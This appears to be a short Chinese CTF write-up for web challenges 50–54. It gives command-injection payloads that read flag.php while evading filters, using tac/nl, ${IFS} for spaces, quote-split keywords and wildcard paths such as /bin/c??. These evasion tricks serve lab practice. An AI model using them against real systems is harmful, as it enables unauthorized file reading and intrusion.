 ------

### web-50

我们依旧可以用tac来绕过

```
payload：?c=tac<fl\ag.php||
```

------

### web-51

这题把tac过滤了，我们可以使用nl来进行绕过

```
?c=nl<fl\ag.php||
```

------

### web-52

这道题的<和>被过滤了，但$没有被过滤，我们可以使用\${IFS}来代替空格

```
payload: ?c=nl${IFS}fl\ag.php
```

------

### web-53

跟上题做法一样

```
payload1:c''at${IFS}fla''g.p''hp
payload2:c=nl$IFS\fla\g.php

```

------

### web-54

这道题加强了正则表达式

![image-20240425202337926](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404252023965.png)

```
例如.*c.*a.*t.*
就是匹配所有包含cat的字符串（不区分顺序）
```

用模糊匹配绕过

```
payload：?c=/bin/c??${IFS}????????
```
